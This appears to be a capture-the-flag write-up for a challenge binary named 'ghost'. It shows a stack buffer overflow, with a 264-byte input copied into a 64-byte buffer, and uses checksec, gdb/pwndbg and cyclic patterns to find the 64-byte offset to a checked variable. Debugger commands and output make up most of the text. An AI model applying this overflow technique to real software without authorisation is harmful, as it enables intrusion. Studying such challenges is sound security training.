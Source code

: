 So there's a variable on the stack and we have to overwrite it somehow. Program get user input, copies it to buffer, and nothing. Input is lost.

Program has all protections enabled, so how to we overwrite the variable?

```bash
└─$ checksec ./ghost     
[*] ''.../BDSEC/ghost/ghost'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Attack Vector: Human error

```c
char buffer [64];
char code [264];
```

As you can see `code` is bigger then `buffer`, meaning we can write on the stack. First we will need offset.

```bash
└─$ gdb -q ./ghost 
pwndbg: loaded 136 pwndbg commands and 48 shell commands. Type pwndbg [--shell | --all] [filter] for a list.
pwndbg: created $rebase, $ida GDB functions (can be used with print/break)
Reading symbols from ./ghost...
(No debugging symbols found in ./ghost)
------- tip of the day (disable with set show-tips off) -------
Disable Pwndbg context information display with set context-sections ''
pwndbg> disass main
... ... ...
   0x00000000000013a9 <+160>:   cmp    eax,0x44434241
... ... ...
pwndbg> b *main+160
Breakpoint 1 at 0x13a9
pwndbg> !cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
pwndbg> run
Starting program: /home/kali/Desktop/BDSEC/ghost/ghost 
...                                                                                                           
ghost code: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa                      
                                                                                                                                      
Breakpoint 1, 0x00005555555553a9 in main ()                                                                                           
...
*RIP  0x5555555553a9 (main+160) ◂— cmp eax, 0x44434241
...
pwndbg> p/x $eax
$1 = 0x61616171

pwndbg> !unhex 61616171 # Hex -> Ascii
aaaq

pwndbg> !cyclic -l qaaa # Reversed Because LSB
64 # Offset
```
